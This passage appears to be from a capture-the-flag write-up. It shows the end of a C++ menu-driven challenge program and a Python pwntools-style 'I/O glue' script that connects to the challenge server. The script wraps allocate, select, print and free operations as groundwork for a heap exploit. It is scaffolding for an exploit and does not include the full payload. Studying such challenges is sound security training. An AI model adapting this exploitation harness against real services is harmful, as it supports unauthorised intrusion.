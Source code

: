 ```cpp
        break;
      }
      case 4: {
        _Exit(0);
        break;
      }
    }
  }
}
```

Associated I/O glue:

```python
from pwnscripts import *
from string import whitespace
context.binary = 'chall'
if args.LOCAL:
    context.libc = 'libc6_2.27-3ubuntu1.4_amd64'
    r = context.binary.process()
else: r = remote('mc.ax', 31707)

optc = 0
def flush(): # speed up i/o by deferring recvs until necessary
    global optc
    while optc:
        r.recvuntil('choice: \n')
        optc -= 1
def choose(opt: int):
    global optc
    r.sendline(str(opt)) # io speed: r.sendlineafter('choice: \n', str(opt))
    optc+=1

def sendidx(idx: int): r.sendline(str(idx)) # io speed: r.sendlineafter('idx: \n', str(idx))
def alloc(idx: int, name: bytes):
    assert all(c not in whitespace.encode() for c in name) # whitespace will cause cin to terminate. This necessarily means that some ASLR bytes can kill an exploit.
    assert len(name) < 0x1000
    choose(0)
    sendidx(idx)
    r.sendline(name) # io speed: r.sendlineafter('name: \n', name)
def fav(idx: int):
    choose(1)
    sendidx(idx)
def printName() -> bytes:
    choose(2)
    flush()
    r.recvuntil('name: ')
    return r.recvline(timeout=1)[:-1]
def Eat(): choose(3)
```
